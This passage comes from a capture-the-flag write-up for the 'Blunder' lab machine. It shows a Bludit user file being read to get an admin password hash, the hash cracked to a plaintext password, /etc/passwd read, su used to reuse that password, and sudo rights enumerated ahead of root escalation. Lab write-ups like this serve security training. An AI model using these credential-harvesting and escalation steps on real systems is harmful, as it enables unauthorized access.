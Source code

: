 That certainly looks like a password hash, lets inspect that file.

```bash
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

If we toss that hash into Google, we can see that it is the SHA-1 hash of "Password120". We can also see from `/etc/passwd` that Hugo is a user on this box.

```bash
www-data@blunder:/var/www$ cat /etc/passwd
...
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
```

Lets see if Hugo like to reuse passwords.

```bash
www-data@blunder:/var/www$ su hugo
Password:
hugo@blunder:/var/www$
```

## Phase 5: Getting Root

With a valid set of user credentials, it's time to start re-enumerating this box. One of the first things I like to check is `sudo` permissions because they are such an easy win.

```bash
hugo@blunder:~$ sudo -l
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
